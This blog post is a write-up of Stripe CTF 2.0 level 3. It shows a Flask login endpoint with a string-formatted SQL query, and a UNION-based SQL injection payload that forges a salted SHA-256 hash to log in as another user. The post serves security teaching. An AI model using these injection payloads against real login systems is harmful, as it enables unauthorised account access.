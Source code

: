 ```yaml
---
layout: post
title: Stripe Capture The Flag 2.0 - Problem 3
date: 2012-09-19 00:01
comments: true
categories: ctf
---
```


## Level 3

Finally we get to level 3. Here's the setup:

```
After the fiasco back in Level 0, management has decided to fortify the Secret Safe into an unbreakable solution (kind of like Unbreakable Linux). The resulting product is Secret Vault, which is so secure that it requires human intervention to add new secrets.

A beta version has launched with some interesting secrets (including the password to access Level 4)
```

Here's the code for the server (Python finally!)
{% gist 3747632 %}

...and here's the front-end:
{% gist 3747637 %}

From the description, we know that we need to break into bob's account to retrieve the password to level 4, although breaking into eve and mallory's accounts are attempting :) Afterall, who wouldn't want to know the proof of [P=NP](http://en.wikipedia.org/wiki/P_versus_NP_problem) or how to make a [perpetual motion machine](http://en.wikipedia.org/wiki/Perpetual_motion_machine)?

Anyhow, the front-end is a typical login page: you get username and password input fields, and they're sent off (via POST) to a server script. 
The server is a simple Flask app that gets the user input, checks them against a table of username and salted password hashes.

The `login()` function is where all the action takes place. Line 86 quickly caught my eyes:

```python
query = """SELECT id, password_hash, salt FROM users WHERE username = '{0}' LIMIT 1""".format(username)
cursor.execute(query)
```

This is an alarming pattern of formatting a string and sending it off to `cursor.execute()`. Python's string `format()` method is just another way of interopolation. It's exactly the same as `"""SELECT id, password_hash, salt FROM user WHERE username = %s""" % username"""`.

Now that we found the vulnerability, we need to find a way exploit it.

### Take 1

Normally, with SQL injection, you craft an input to terminate the previous statement, and inject the statement you want it to execute. Reading the code, it's getting the user's password hash and salt for the given user, and check it against the input hash and salt. The hashing method is [sha256](http://en.wikipedia.org/wiki/SHA-2). With Python, we can quickly pre-calculate a salted hash to inject. Here's an example, with password `1` and salt `a`.

```bash
python -c "import hashlib; print hashlib.sha256('1'+'a').hexdigest()"
```

and we get `a73fcf339640929207281fb8e038884806e2eb0840f2245694dbba1d5cc89e65`.

The statement we really want it to execute is:

```sql
SELECT id, 'a73fcf339640929207281fb8e038884806e2eb0840f2245694dbba1d5cc89e65', 'a' FROM users WHERE username = 'bob'
```

so when we put '1' in the password input box, we will get the server to run sha246 on '1' + 'a', and check it against the hash that we fed in. The entire query gets executed wil look like this (with the middle line being the `username` we feed in):

```sql
SELECT id, password_hash, salt FROM users WHERE username = '
'; SELECT id,  'a73fcf339640929207281fb8e038884806e2eb0840f2245694dbba1d5cc89e65', 'a' FROM users WHERE username='bob
' LIMIT 1
```


How does that faire?

Unfortunately, we get a stack trace in the traceback:

```
Traceback (most recent call last):
  File "/Library/Python/2.6/site-packages/Flask-0.9-py2.6.egg/flask/app.py", line 1689, in wsgi_app
    response = self.make_response(self.handle_exception(e))
  File "/Library/Python/2.6/site-packages/Flask-0.9-py2.6.egg/flask/app.py", line 1687, in wsgi_app
    response = self.full_dispatch_request()
  File "/Library/Python/2.6/site-packages/Flask-0.9-py2.6.egg/flask/app.py", line 1360, in full_dispatch_request
    rv = self.handle_user_exception(e)
  File "/Library/Python/2.6/site-packages/Flask-0.9-py2.6.egg/flask/app.py", line 1358, in full_dispatch_request
    rv = self.dispatch_request()
  File "/Library/Python/2.6/site-packages/Flask-0.9-py2.6.egg/flask/app.py", line 1344, in dispatch_request
    return self.view_functions[rule.endpoint](**req.view_args)
  File "/Users/kevin/src/ctf/level03-code/secretvault.py", line 91, in login
    cursor.execute(query)Warning: You can only execute one statement at a time.
```

`cursor` cannot run more than one statement at a time! Smart, eh?

### Take 2

So the trick here is to use exactly 1 statement to inject our crafted data. We still want this to be returning the same fields. What if I `UNION` two queries, with the second query selecting the injected data?

So something like this (the middle line is the one we inject as `username`):

```sql
SELECT id, password_hash, salt FROM users WHERE username = '
bob' UNION select id, 'a73fcf339640929207281fb8e038884806e2eb0840f2245694dbba1d5cc89e65', 'a' FROM users WHERE username = 'bob
' LIMIT 1
```

Submit, and boom:

```
Welcome back! Your secret is: "..." (Log out)
```

## Conclusion

This is a canonical SQL injection. Again, NEVER trust user input. Always sanitize user input.

